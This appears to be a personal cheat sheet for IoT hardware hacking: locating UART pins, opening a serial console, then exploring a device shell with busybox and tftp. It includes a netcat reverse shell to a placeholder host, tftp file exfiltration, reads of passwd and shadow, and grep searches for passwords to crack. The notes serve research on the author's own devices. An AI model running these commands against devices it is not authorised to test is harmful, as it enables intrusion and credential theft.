 
Guides:
https://www.rapid7.com/blog/post/2019/02/20/iot-security-introduction-to-embedded-hardware-hacking/

### Hardware

##### Find a way to connect a ttl to usb adapter

first try to find a way to connect to the device
are there uart pins (often 4 pins or holes in a row) or another communication standard like jtag?

If there are holes with no pins, solder pins there

If a nice marked uart header, just connect with a ttl to usb device and get started

If nothing is marked, grab a multimeter and beep/meassure:
- beep ground to other ground points, like the outside of connectors
- try and find a pin/pad that fluctuates between 0 and vcc, especially at boot, this could be serial tx
- if four connectors are lined up the other two are probably rx and vcc, try to differentiate them. rx should be capable of much lower current

##### Find the rom/firmware chip

Read on chips to identify their function, measure to confirm voltages like ground, vcc. For voltage converters we will have vin and vout.


Can we find the rom/firmware chip?

### Connecting via UART

In linux:
`lsusb`
`dmesg | grep tty`
	`[17391.962803] usb 2-2.2: cp210x converter now attached to ttyUSB0`

What tty is the device connected to, something similar to `ttyUSB0`

I don't recommend screen but it works, make sure to log the session with script:
`script -f 1.log`
`screen /dev/ttyUSB0 115200`

Recommended (scrollable screen + updating logfile with tee):
`minicom -D /dev/ttyUSB0 -b 115200 | tee 2.log`

### When we get TX information from the device

Get all the info you can about the device, memory addresses, mount info and so on

try to abort boot / can we type commands

## When we have some kind of shell

check available commands
- is busybox available?
	- limitid?
		- https://busybox.net/downloads/binaries/
		- upgrade busybox using tftp (if available) and on kali atftpd (/etc/ /srv/tftp is dir?)
		- atpftd --startdaemon

which fs are read-only and which ar writeable
- mount

check passwd, shadow

make python script to automate

### We end up in uboot or other pre linux env

run `help`

### We end up in some kind of Linux shell

what user are we, what permissions do we have?
- `whoami`, `id`, `ls -la`...

check what commands we have
- `ls /bin`
- `ls /sbin`
- `busybox` (common bundle of commands for iot devices)
- `init` (common executable to initialize Linux on iot devices)

find writeable directories
- `mount` (should show rw status and type, like `ramfs`)
- normal linux commands like `ls -la`, `chmod` and `chown`

if we have `tftp`  (trivial file transfer protocol) available we can use it to send and receive files
- share files using `atftpd` (included in kali)
	- file share should be `/srv/tftpd` and the owner should be `nobody`, if not: check the config file `cat /etc/defualt/atftpd`
	- start daemon with `sudo atftpd --daemon`
- get files from iot device
	- `-g` to get, `-p` to put, `-l local_file`, `-r remote_file`
	- `tftp -g -r filename 10.10.10.10`
	- `tftp -p -l filename 10.10.10.10`

if we have a limited busybox we try to get the full version to the box
- find out the architexture and version of busybox
	- run busybox
	- run `file` on an executable from the box
- get the right version from https://busybox.net/downloads/binaries/
- `tftp -g -r busybox 10.10.10.10` (be in a dir where you can write)
- set permissions `chmod 777`
- remember to run busybox with the right path like `./busybox nc 10.10.10.10.443 -e /bin/bash`

if we have a init command we might want to upload it to out computer to reverse engineer it
- `tftp -p -l init 10.10.10.10` (be in the right dir)

explore linux
- normal linux exploration, remember that commands might be limited, like ps not having aux
- remember a read only fs is probably easier to explore via firmware dl, a ramfs... on the other hand it's easier to check out on the device
- search for things:
	- `./busybox grep -r 'pass' .`
	- `./busybox grep -r 'admin' .`
	- `./busybox grep -r 'api' .`
	- `./busybox grep -r '.com' .`
	- `./busybox grep -r 'admin' .`
	- `./busybox find -name '*.xml'`
	- `./busybox find -name '*.conf'`
	- `./busybox find -name '*.txt'`

crack found passwords, remember that the passwords you have selected while configuring will be in there too, so it might be good to use easily cracked ones for testing this

